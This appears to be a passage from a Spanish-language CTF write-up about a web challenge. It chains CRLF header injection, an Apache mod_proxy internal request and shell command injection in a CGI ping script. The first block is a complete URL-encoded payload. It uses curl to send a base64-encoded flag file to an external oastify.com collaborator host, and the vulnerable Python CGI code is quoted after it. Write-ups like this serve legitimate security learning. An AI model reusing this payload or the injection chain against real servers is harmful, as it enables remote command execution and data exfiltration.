 ```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30cfvekttb0yhbc2ia84d9zkasqjwak68v.oastify.com?p=$(echo%25%32%30%27cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62%25%32%30cat%25%32%30flag-jQpEEi2A5JK8HR8.txt%27|sh|%25%32%30base64%25%32%30-w0))%260name=%0D%0A%0D%0A
```

attack-domain file:

```js
def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

Se observa que imprime Location: y Content-Type, pero no valida que name no incluya \r\n, lo que permite inyectar nuevas cabeceras HTTP, adicionalmente en el archivo Dockerfile se habilita el módulo proxy para Apache, el cual permite enviar peticiones a servicios http.

```docker
RUN a2enmod rewrite cgi proxy proxy_fcgi proxy_http
```

Ejemplo, si envío `name=a%0d%0aLocation: /a%0d%0aContent-Type: proxy:...`, se transforma en la siguiente respuesta.

```http
HTTP/1.1 302 Found
Location: /a
Content-Type: proxy:http://127.0.0.1/cgi-bin/attack-ip?target=...
```

Ahora que ya encontramos la forma de hacer solicitudes internas es hora de abusar del endpoint /attack-ip, el cual tiene como código.

```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')

try:
    count = 1  # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
```